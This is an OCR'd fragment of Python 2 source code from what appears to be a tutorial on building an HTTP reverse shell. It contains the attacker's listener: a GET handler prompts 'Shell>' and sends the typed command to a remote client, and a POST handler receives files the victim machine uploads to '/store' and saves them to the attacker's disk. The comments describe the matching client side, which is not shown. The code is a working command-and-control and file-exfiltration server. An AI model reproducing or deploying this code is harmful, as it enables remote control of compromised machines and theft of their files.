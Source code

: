 ```

    def do_GET(s):

        command = raw_input("Shell> ")
        s.send_response(200)
        s.send_header("Content-type", "text/html")
        s.end_headers()
        s.wfile.write(command)

    def do_POST(s):

        # Here we will use the points which we mentioned in the Client side, as a start if the "/store" was in the URL
        # then this is a POST used for file transfer so we will parse the POST header, if its value was 'multipart/form-data' then we
        # will pass the POST parameters to FieldStorage class, the "fs" object contains the returned values from FieldStorage in dictionary fashion

        if s.path == '/store':
            try:
                ctype, pdict = cgi.parse_header(s.headers.getheader('content-type'))
                if ctype == 'multipart/form-data' :
                    fs = cgi.FieldStorage( fp = s.rfile, 
                                        headers = s.headers, 
                                        environ={ 'REQUEST_METHOD':'POST' } 
                                      )
                else:
                    print "[-] Unexpected POST request"

                fs_up = fs['file'] # Remember, on the client side we submitted the file in dictionary fashion, and we used the key 'file'
                                    # to hold the actual file. Now here to retrieve the actual file, we use the corresponding key 'file'

                with open('/root/Desktop/1.txt', 'wb') as o: # create a file holder called '1.txt' and write the received file into this '1.txt' 
                    o.write( fs_up.file.read() )
                    s.send_response(200)
                    s.end_headers()
            except Exception as e:
                print e

            return # once we store the received file in our file holder, we exit the function

        s.send_response(200)
        s.end_headers()
        length = int(s.headers['Content-Length'])
        postVar = s.rfile.read(length )
        print postVar

if __name__ == '__main__':
    server_class = BaseHTTPServer.HTTPServer
    httpd = server_class((HOST_NAME, PORT_NUMBER), MyHandler)
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        print '[!] Server is terminated'
        httpd.server_close()
```
